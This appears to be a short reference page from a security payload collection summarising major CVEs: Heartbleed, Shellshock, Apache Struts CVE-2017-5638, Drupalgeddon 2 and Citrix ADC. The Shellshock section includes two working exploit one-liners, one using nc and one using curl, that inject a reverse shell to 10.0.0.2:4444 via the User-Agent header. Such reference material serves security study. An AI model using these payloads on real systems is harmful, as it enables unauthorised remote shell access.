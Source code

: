 # Common Vulnerabilities and Exposures

Big CVEs in the last 5 years.

## CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).

## CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```

## CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.

## CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.

## CVE-2019-19781 -  Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.





## Thanks to

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)

